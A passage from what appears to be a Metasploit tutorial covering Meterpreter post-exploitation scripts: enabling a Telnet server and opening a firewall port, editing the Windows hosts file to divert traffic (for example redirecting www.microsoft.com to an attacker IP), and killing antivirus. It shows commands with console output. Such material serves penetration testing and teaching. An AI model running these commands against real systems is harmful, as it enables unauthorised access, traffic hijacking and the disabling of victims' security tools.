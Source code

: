 ```
meterpreter > run gettelnet -e

[*] Windows Telnet Server Enabler Meterpreter Script
[*] Setting Telnet Server Services service startup mode
[*] The Telnet Server Services service is not set to auto, changing it to auto ...
[*] Opening port in local firewall if necessary
```

# 7 - hostsedit

The hostsedit Meterpreter script is for adding entries to the Windows hosts file. Since Windows will check the hosts file first instead of the configured DNS server, it will assist in diverting traffic to a fake entry or entries. Either a single entry can be provided or a series of entries can be provided with a file containing one entry per line.

```
meterpreter > run hostsedit

[!] Meterpreter scripts are deprecated. Try post/windows/manage/inject_host.
[!] Example: run post/windows/manage/inject_host OPTION=value [...]
This Meterpreter script is for adding entries in to the Windows Hosts file.
Since Windows will check first the Hosts file instead of the configured DNS Server
it will assist in diverting traffic to the fake entry or entries. Either a single
entry can be provided or a series of entries provided a file with one per line.

OPTIONS:

    -e   Host entry in the format of IP,Hostname.
    -h        Help Options.
    -l   Text file with list of entries in the format of IP,Hostname. One per line.
```

Example:

```
run hostsedit -e 127.0.0.1,google.com
```

```
run hostsedit -l /tmp/fakednsentries.txt
```

```
meterpreter > run hostsedit -e 10.211.55.162,www.microsoft.com
[*] Making Backup of the hosts file.
[*] Backup loacated in C:\WINDOWS\System32\drivers\etc\hosts62497.back
[*] Adding Record for Host www.microsoft.com with IP 10.211.55.162
[*] Clearing the DNS Cache
```

# 8 - killav

The killav script can be used to disable most antivirus programs running as a service on a target.
